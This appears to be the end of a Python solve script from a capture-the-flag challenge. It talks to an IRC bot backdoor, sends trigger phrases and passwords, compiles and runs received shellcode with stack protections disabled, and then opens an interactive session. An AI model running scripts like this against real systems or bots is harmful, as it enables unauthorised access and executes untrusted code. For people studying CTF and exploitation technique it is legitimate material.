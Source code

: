 ```py
    f.close()
    os.system('gcc temp.c -fno-stack-protector -z execstack -no-pie -o temp')
    os.system('./temp 0>temp_out')
    rand_code = open('./temp_out', 'r').read()
    os.system('rm -f temp.c temp temp_out')
    return rand_code

bufn = 0
buft = 0
buftmp = []

while True:
    if bufn == buft:
        buftmp = sock.recv(1337)
        buft = len(buftmp.split(b"\r\n"))-1
        bufn = 0
    else:
        bufn += 1

    buffer = buftmp.split(b"\r\n")[bufn]

    if b"PING" in buffer.strip(b"\r\n"):
        resposta = buffer.split()[1].replace(b":", b"")
        sock.sendline(b"PONG :" + resposta)

    if b"MODE" in buffer and b" :+i" in buffer:
        break

sock.recv(1337)
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :!abracadabra')
print(sock.recvuntil(b'WHO\001\r\n'))
sock.sendline(b'NOTICE ' + recpt.encode() + b' :\001YourMasterModaFucka\001')
print(sock.recvuntil(b'Passwd?\r\n'))
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :/FuCkR3b3ll10us')
sc1 = sock.recvuntil('\r\n').split(b':')[2][:-2]
sc2 = sock.recvuntil('\r\n').split(b':')[2][:-2]
print("Shellcode:")
shellcode = sc1.decode() + sc2.decode()
print(shellcode)
shellcode_result = sc_compile(shellcode)
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :' + shellcode_result.encode())
print(sock.recvuntil(b':Authenticated! Have fun Master!\r\n'))
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :!cmd tmp INVITE nickname /@sz')
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :/@sz szymex73 # aa aa')
sock.interactive()
```
